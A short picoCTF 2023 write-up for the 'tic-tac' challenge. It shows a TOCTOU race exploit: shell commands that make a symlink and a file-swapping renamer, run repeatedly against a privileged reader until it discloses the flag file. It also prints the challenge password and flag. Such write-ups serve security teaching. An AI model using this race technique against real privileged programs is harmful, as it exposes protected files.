 # picoCTF 2023 - tic-tac (Binary Exploitation)

## Description  

Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.

ssh to saturn.picoctf.net:59853, and run the binary named "txtreader" once connected. Login as ctf-player with the password, fd7746b4 

## Solution 

Please refer to [this video](https://www.youtube.com/watch?v=5g137gsB9Wk). 

We first create a file that will constantly swap two file. 
I used a piece of code written by stephenR [here](https://github.com/sroettger/35c3ctf_chals/blob/master/logrotate/exploit/rename.c). 

Then, create a symlink to the flag file and a dummy file. 

```bash 
ln -s fake flag.txt
touch file
```

Then, compile and run the code that will swap the name of the file 

```bash 
gcc rename.c -o rename
./rename fake file.txt
```

On a different terminal, run 
```bash 
./txtreader fake
```

This might not work the first time, but keep trying and you will get the flag.

## Flag 

`picoCTF{ToctoU_!s_3a5y_a5726c65}`